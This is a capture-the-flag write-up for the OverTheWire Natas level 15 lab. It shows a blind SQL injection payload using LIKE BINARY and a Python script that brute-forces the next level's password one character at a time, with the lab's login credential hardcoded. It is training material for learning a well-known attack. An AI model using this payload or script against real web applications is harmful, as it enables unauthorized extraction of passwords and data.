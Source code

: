 We can again see the query that is being run on the backend by manipulating the URL: http://natas15.natas.labs.overthewire.org/index.php?debug=True&username=natas16

``` plain
Executing query: SELECT * from users where username="natas16"
This user exists.
```

So, this time the SQL code checks for the existence of a user and reports whether that username exists or not. We can't inject in a way that would directly give us the password like previously, but we know the query will be run against the *users* table, which contains both usernames and passwords. There is a way to bruteforce the natas16 password by forcing the database to check it one character at a time and report True of False (user exists or not). The statement to inject will look like this: <code>username=natas16" AND password LIKE BINARY "a%"-- </code>. Testing it in the URL (don't forget to encode the space after comments), you can check one character a time until the database respons with the user exists message. Then you know the password begins with the respective character and you can move on to the next. But the password is 32 characters long, so we will do it in an automated way!

Some explanation about the SQL keywords:

* The AND operator displays a record if both the first condition AND the second condition are true.

* The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.

* The BINARY operator casts the string following it to a binary string. This is an easy way to force a column comparison to be done byte by byte rather than character by character. This causes the comparison to be case sensitive even if the column is not defined as BINARY or BLOB. BINARY also causes trailing spaces to be significant. 

* **%** 	A substitute for zero or more characters 

If you run this query with the debug parameter set, you will see how it looks like:

``` plain
Executing query: SELECT * from users where username="natas16"and password like binary "a%"-- "
```

When the entire statement is evaluated, the query will return True of False, and we will use that information to build the password. Here's a Python script to do the job:

``` python
import requests


passwd = ""
# this is the range of possible values
testchars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
index = 0
while index < len(testchars):
 
    # binary keyword forces a case sensitive search
    query = dict(username="natas16\" AND password like BINARY \"" + \
                 passwd + testchars[index] + "%\" -- ",submit="Check existence")
    # example query: {'username': 'natas16" AND password like BINARY " a%" -- '}
    guess = requests.post('http://natas15.natas.labs.overthewire.org/', \
                      auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'),\
                      params = query)
    # example encoded query (automatic encoding):
    # username=natas16%22+AND+password+like+BINARY+%22+a%25%22+--+
    if "This user exists" in guess.text:
       
        passwd += testchars[index]
        print passwd
        index = 0
        continue
    index += 1
```

